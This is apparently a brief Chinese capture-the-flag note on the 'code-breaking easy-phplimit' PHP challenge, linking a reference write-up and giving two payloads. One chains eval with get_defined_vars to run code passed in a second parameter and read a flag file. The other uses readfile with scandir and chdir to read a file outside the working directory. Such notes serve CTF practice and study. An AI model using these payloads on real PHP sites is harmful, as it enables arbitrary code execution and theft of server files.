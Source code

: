## code-breaking_easy-phplimit函数的巧妙搭配

参考文章：
- https://www.kingkk.com/2018/11/Code-Breaking-Puzzles-%E9%A2%98%E8%A7%A3-%E5%AD%A6%E4%B9%A0%E7%AF%87/#get-defined-vars

payload：

```php
eval(next(current(get_defined_vars())));&b=print_r(scandir('../'));print_r(file_get_contents('../flag_phpbyp4ss'));
readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));
```